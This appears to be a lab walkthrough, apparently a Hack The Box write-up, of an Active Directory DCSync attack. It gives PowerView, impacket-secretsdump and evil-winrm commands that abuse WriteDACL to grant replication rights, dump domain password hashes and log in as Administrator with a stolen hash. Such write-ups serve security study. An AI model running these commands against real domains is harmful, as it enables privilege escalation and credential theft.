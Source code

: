 #### **4. Domains: Perform a DCSync Attack**

**Scenario:**  
You have `WriteDACL` on the domain object. Use it to grant yourself `DCSync` rights.
![Pasted image 20250501172244](https://github.com/user-attachments/assets/2161dfe3-908e-4c76-b72a-82c412583f84)
We owned SVC account and we are member of `Exchange Windows Permissions` that has a `WriteDacl` ACL on on the Domain.
Steps (On target Powershell)
**Steps:**

1. **Import PowerView**  
   ```powershell
   import-module .\powerview.ps1
   ```

2. **Set Up Credentials**  
   ```powershell
   $pass = convertto-securestring 'abc123!' -asplain -force
   $cred = new-object system.management.automation.pscredential('htb\MG', $pass)
   ```

3. **Modify DACL to Grant DCSync Rights**  
   Use `Add-DomainObjectAcl` to grant your account the `DCSync` privilege:
   ```powershell
   Add-DomainObjectAcl -TargetIdentity "testlab.local" -Rights DCSync -PrincipalIdentity MG -Credential $cred
   ```
   - **Why:** This enables your account to request replication data, including password hashes, from the domain.

4. **Perform the DCSync Attack**  
### Extract Secrets and Access Administrator

1. **Dump Secrets Using the New User**  
   Use `impacket-secretsdump` to extract secrets from the domain:
   ```bash
   impacket-secretsdump htb/MG@$IP
   ```

2. **Use the Administrator Hash to Gain Access**  
   Use `evil-winrm` to log in as `Administrator` with the extracted hash:
   ```bash
   evil-winrm -i $IP -u Administrator -H "32693b11e6aa90eb43d32c72a07ceea6"
   ```
